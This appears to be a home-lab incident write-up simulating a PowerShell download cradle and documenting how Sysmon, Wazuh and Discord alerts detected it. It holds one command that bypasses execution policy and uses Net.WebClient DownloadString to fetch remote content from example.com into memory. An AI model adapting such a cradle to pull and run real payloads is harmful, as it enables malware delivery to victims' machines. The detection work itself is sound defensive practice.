

# Incident 009 – PowerShell Download Cradle

## Description

Simulation of a PowerShell Download Cradle technique used to retrieve remote content from an external source.

This activity demonstrates how attackers can leverage PowerShell and .NET WebClient functionality to download content directly into memory. The event was monitored using Sysmon, Wazuh, and Discord alerting integration.

---

## Skills Demonstrated

- PowerShell Analysis
- Sysmon Event Investigation
- Wazuh Alert Analysis
- Threat Hunting
- Windows Endpoint Monitoring
- MITRE ATT&CK Mapping
- Discord Alert Validation

---

## Techniques

- T1059.001 – PowerShell
- T1105 – Ingress Tool Transfer

---

## Environment

### Endpoint

- Windows 10 IoT Enterprise LTSC 2021
- Sysmon Installed
- Wazuh Agent Installed

### Monitoring Stack

- Wazuh Manager
- Wazuh Dashboard
- Sysmon
- Discord Webhook Integration

---

## Attack Simulation

The following command was executed from an elevated PowerShell session:

```powershell
powershell.exe -ExecutionPolicy Bypass -Command "(New-Object Net.WebClient).DownloadString('https://example.com')"
```

The command creates a .NET WebClient object and downloads remote content directly into memory.

---

## Evidence 01 – PowerShell Download Cradle Execution

The Download Cradle command was executed successfully from PowerShell.



### Result

The remote content hosted on example.com was successfully retrieved and displayed in the PowerShell console.

---

## Evidence 02 – Sysmon Process Creation Detection

Sysmon Event ID 1 recorded the PowerShell process creation and captured the full command line.


### Result

Sysmon successfully logged the execution of PowerShell with the DownloadString() function.

Key observations:

- Event ID 1 (Process Create)
- powershell.exe execution
- ExecutionPolicy Bypass parameter
- DownloadString() usage
- Full command-line visibility

---

## Evidence 03 – Wazuh Alert Detection

The Sysmon event was forwarded to Wazuh and generated an alert.


### Alert Information

| Field | Value |
|---------|---------|
| Rule ID | 92027 |
| Level | 4 |
| Description | Powershell process spawned powershell instance |
| MITRE ATT&CK | T1059.001 |

### Result

Wazuh successfully detected suspicious PowerShell activity and generated an alert for investigation.

---

## Evidence 04 – Wazuh Alert Investigation

The alert details were reviewed to validate the command execution and identify the associated process information.


### Key Findings

- PowerShell execution confirmed
- DownloadString() function observed
- Net.WebClient usage identified
- Full command line available for investigation
- User context successfully recorded

### Result

Alert investigation confirmed the use of a PowerShell Download Cradle technique to retrieve remote content.

---

## Evidence 05 – Discord Alert Notification

A high-severity Discord notification was generated from related suspicious activity observed during execution.


### Alert Information

| Field | Value |
|---------|---------|
| Rule ID | 92213 |
| Level | 15 |
| Description | Executable file dropped in folder commonly used by malware |
| Event ID | 11 |

### Result

The Discord integration successfully delivered a real-time alert generated by Wazuh.

---

## Detection Summary

| Detection Source | Status |
|------------------|---------|
| PowerShell Execution | Detected |
| Sysmon Event ID 1 | Detected |
| Wazuh Alert | Generated |
| Alert Investigation | Completed |
| Discord Notification | Generated |

---

## Security Impact

PowerShell Download Cradle techniques are frequently used by attackers to retrieve payloads, scripts, and malware from remote infrastructure while minimizing disk artifacts.

Monitoring PowerShell activity, command-line parameters, and related file creation events provides valuable visibility into potential malicious behavior and post-exploitation activity.

The combination of Sysmon, Wazuh, and Discord alerting enables rapid detection and investigation of suspicious PowerShell execution.

---

## Lessons Learned

- Sysmon Event ID 1 provides detailed visibility into PowerShell activity.
- Command-line logging significantly improves threat hunting capabilities.
- Wazuh successfully correlates PowerShell execution events.
- Discord integration provides near real-time alert notification.
- Download Cradle activity can trigger additional detections associated with malware delivery behavior.
- PowerShell remains a critical attack surface that should be continuously monitored in Windows environments.
